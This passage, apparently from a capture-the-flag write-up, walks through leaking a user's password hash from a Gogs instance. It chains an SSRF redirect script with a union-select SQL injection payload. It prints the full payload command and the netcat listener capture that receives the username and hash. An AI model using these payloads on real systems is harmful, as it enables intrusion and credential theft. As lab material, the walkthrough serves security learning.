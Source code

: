 Now if we drag and drop the html file into our browser we can access the static page which is a gogs webpage.


![image](https://user-images.githubusercontent.com/105310322/194423032-053f5637-9867-4d25-9e2c-6569643c4d6a.png)


There is a nice PoC exploit for this that will speed this next part up.

https://www.exploit-db.com/exploits/35238

The PoC gives us a template for how we can make our union select payload. By formatting the PoC for our uses we can see that it takes in 27 slots, in the 3rd slot we can put our tables that we want to leak.

By formating the PoC we can more quickly get the result we are looking for since we do not have to manually input everything.

Fire up burpsuite with the payload URL and monitored URL to speed up your trial and error process.

Note: From hacktricks this is a WAF bypass and no whitespace is needed in the URL payload. 

```https://book.hacktricks.xyz/pentesting-web/sql-injection```


Input the the payload as follows.

```
└─$ python2.7 redirect.py --port 80 --ip 10.10.16.19 "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,(select/**/passwd/**/from/**/user),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--"
serving at port 80
10.129.61.202 - - [05/Oct/2022 15:18:37] "GET / HTTP/1.0" 301 -
```

On our listner we will capture a hashed password and the username susanne

```66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37```

```console
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.19] from (UNKNOWN) [10.129.61.202] 53318
POST / HTTP/1.1
Host: 10.10.16.19:1234
Accept: */*
Content-type: application/json
Content-Length: 846

{"webhookUrl":"http:\/\/10.10.16.19:1234","monitoredUrl":"http:\/\/10.10.16.19","health":"up","body":"{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"},{\"username\":\"66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/1\"}],\"ok\":true}","message":"HTTP\/1.0 301 Moved Permanently","headers":{"Server":"SimpleHTTP\/0.6 Python\/2.7.18","Date":"Wed, 05 Oct 2022 21:09:25 GMT","Location":"http:\/\/127.0.0.1:3000\/api\/v1\/users\/search?q=')\/**\/union\/**\/all\/**\/select\/**\/1,1,(select\/**\/passwd\/**\/from\/**\/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1--","Content-Type":"application\/json; charset=UTF-8","Set-Cookie":"_csrf=; Path=\/; Max-Age=0","Content-Length":"264"}}

```
And this payload gives us the salt for the hash.
